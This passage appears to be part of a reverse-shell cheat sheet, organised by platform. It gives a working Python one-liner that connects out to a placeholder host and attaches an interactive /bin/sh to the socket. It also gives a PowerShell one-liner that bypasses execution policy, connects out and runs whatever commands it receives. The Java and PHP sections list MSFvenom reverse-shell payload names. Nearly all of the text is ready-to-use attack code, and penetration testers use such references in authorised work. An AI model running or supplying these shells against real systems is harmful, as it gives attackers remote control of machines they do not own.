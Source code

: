 ### *nix with sh (shell runs in foreground and halts subsequent execution until shell is terminated)
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[HOST]",[PORT]));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```


## Powershell

### Execute in foreground
```
powershell -nop -exec bypass -c "$client=New-Object System.Net.Sockets.TCPClient('[HOST]',[PORT]);$stream=$client.GetStream();[byte[]]$bytes=0..65535|%{0};while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1 | Out-String);$sendback2=$sendback+'PS '+(pwd).Path+'> ';$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


## Java

### MSFvenom payloads
* java/jsp_shell_reverse_tcp
* java/shell_reverse_tcp


## PHP

### MSFvenom payloads 
* php/shell_reverse_tcp

